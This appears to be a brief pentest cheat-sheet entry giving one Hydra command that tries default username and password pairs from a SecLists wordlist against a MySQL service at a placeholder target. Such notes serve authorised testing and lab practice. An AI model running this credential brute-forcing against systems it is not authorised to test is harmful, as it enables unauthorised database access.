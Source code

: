 # hydra mysql default credentials
```bash
hydra $IP mysql -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -t 1
```
